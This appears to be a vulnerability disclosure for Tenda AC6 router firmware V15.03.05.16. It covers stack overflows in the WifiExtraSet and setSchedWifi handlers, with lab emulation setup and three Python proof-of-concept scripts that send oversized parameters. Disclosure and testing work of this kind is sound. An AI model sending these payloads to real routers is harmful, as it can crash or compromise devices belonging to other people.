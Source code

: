 /goform/WifiExtraSet
--------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

A vulnerability was found in Tenda AC6 V15.03.05.16. The file /goform/WifiExtraSet is affected. Using the wpapsk\_crypto parameter causes a stack-based buffer overflow

![](api/attachments/RDjZlle9Z1rD/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/WifiExtraSet"
data = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",
    "country_code": "CN",
    "wpsEn": "0",
    "guestEn": "0",
    "iptvEn": "0",
    "wifiTimerEn": "1",
    "smartSaveEn": "1",
    "dmzEn": "1",
    "handset": "0",
    "ssid": "fcniux",
    "wpapsk_key": "11111111",
    "security": "wpapsk",
    "wpapsk_type": "wpa",
    "wpapsk_crypto": b"Raining" * 28, 
    "mac": "undifined"
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![](api/attachments/PeiIIoXkyBHq/image/image.png)

setSchedWifi 
-------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedStartTime parameter causes a stack-based buffer overflow.

![](api/attachments/BmIvZmBWK4TX/image/image.png)

![](api/attachments/V6yTKP4NeXX3/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedStartTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![](api/attachments/psSzvwYslYpj/image/image.png)

Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedEndTime parameter causes a stack-based buffer overflow.

![](api/attachments/6zraflQZ105X/image/image.png)

![](api/attachments/V6yTKP4NeXX3/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedEndTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![](api/attachments/qR7BsjmYHNvY/image/image.png)